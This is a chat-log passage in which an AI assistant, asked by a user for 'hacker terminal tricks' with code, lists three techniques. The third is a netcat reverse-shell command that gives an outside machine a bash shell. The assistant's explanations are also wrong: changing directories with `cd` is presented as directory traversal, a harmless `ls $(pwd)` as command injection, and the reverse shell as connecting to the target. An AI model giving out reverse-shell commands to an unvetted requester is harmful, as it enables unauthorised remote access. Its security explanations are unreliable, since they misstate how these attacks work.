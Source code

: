 ## Conclusion

Penetration testing is an essential technique used in cybersecurity to identify and remediate vulnerabilities in systems and networks. By using the penetration testing script I provided, you can automate the process of network scanning, vulnerability scanning, and password cracking, and improve your skills as a white-hat penetration tester. However, it's important to use these tools and techniques responsibly and ethically, and always ensure that you have permission to perform penetration testing before running any scripts or tools on a target system.

---

🙋 **You:**

I meant more like teach me the hacks people do in terminal like when hackers go back to ../../../var or something. That's the kind of hacky tricks I want to understand. Provide code.

---

🤖 **Assistant:**

I apologize for the misunderstanding earlier. Here are some terminal hacks and tricks that are commonly used by penetration testers and security researchers:

1. Directory traversal: Directory traversal is a technique used to access files and directories outside of the web server's root directory by exploiting vulnerabilities in web applications. To perform directory traversal using the terminal, you can use the `cd` command with relative paths. For example, if you want to navigate to the root directory of a Linux system, you can use the following command:

```bash
cd ../../../
```

This command takes you up three levels in the directory tree, allowing you to access files and directories that are normally outside of the web server's root directory.

2. Command injection: Command injection is a technique used to execute arbitrary commands on a system by exploiting vulnerabilities in web applications that allow user input to be passed to the command line. To perform command injection using the terminal, you can use the `$(...)` syntax to execute a command and use its output as an argument to another command. For example, if you want to list the contents of a directory using the output of a command as the directory name, you can use the following command:

```bash
ls $(pwd)
```

This command lists the contents of the current directory (determined by the `pwd` command) by using the output of `pwd` as the argument to the `ls` command.

3. Reverse shell: A reverse shell is a technique used to gain remote access to a system by opening a shell on the target system and sending the output to the attacker's machine. To create a reverse shell using the terminal, you can use the `nc` command to establish a connection to the target system and pipe the output of the shell to the connection. For example, to create a reverse shell on a target system with IP address `192.168.1.10` and port `4444`, you can use the following command:

```bash
/bin/bash -c "nc 192.168.1.10 4444 -e /bin/bash"
```
